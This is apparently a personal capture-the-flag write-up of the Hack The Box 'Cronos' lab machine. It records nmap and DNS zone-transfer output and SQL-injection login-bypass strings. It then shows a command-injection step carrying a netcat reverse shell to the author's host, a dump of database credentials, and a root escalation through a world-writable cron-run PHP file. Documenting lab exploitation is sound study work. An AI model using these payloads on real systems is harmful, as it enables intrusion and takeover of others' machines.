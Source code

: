 ```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 13:08 EDT
Nmap scan report for 10.10.10.13
Host is up (0.093s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.18 (90%), Linux 3.2 - 4.9 (90%), Linux 3.8 - 3.11 (90%), Linux 4.2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   93.48 ms 10.10.14.1
2   93.59 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.45 seconds
```
#dnsenumeration
https://book.hacktricks.xyz/pentesting/pentesting-dns
```
dig axfr @10.10.10.13 cronos.htb              

; <<>> DiG 9.16.11-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 92 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Wed Aug 11 13:21:09 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```
**some useful notes**

**nslookup **=is a simple but very practical command-line tool, which is principally used to find the **IP address** that corresponds to a host, or the domain name that corresponds to an IP address (a process called “Reverse DNS Lookup”). nslookup allows itself to be used in the command-line of the operating system in question; Windows users start the service via the **command prompt**, and Unix users via the **terminal window**. Additionally, there are now a number of services that make it possible to use nslookup online

**axfr**=AXFR offers no authentication, so any client can ask a DNS server for a copy of the entire zone. This means that unless some kind of protection is introduced, an attacker can get a list of all hosts for a domain, which gives them a lot of potential attack vectors.
Now in the admin.cronos.htb we had a login page in which sqli was valid
ran some basic ones and they worked
```
admin' or '1'='1' -- -
' OR 1 -- -
' OR 1=1 # 
```
all these worked 
after login we had a page that was basically executing commands 
like```8.8.8.8|id```by piping or simply id
so I tried putting reverse shell as 
```8.8.8.8|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.33 1234 >/tmp/f```
and it worked
we had a www-data shell in which we could read user flag
tried mysql 
```
www-data@cronos:/var/www/admin$ cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
with these creds
and we got into the database and got admin pass but it was of no importance 
as it was of the database ig
```
select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
```
then without another single thought i ran linpeas and under cron got
```
* * * * *    root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
and checked /etc/crontab and the artisan php file was ran by  root every minute(the first star)
so I put a exec command ```exec("chmod +s /bin/bash");```in the php code  with vi
(make sure not to append as it will be put after the exit command)
then,
```www-data@cronos:/var/www/laravel$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
www-data@cronos:/var/www/laravel$ bash -p
bash-4.3# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```
we became root.

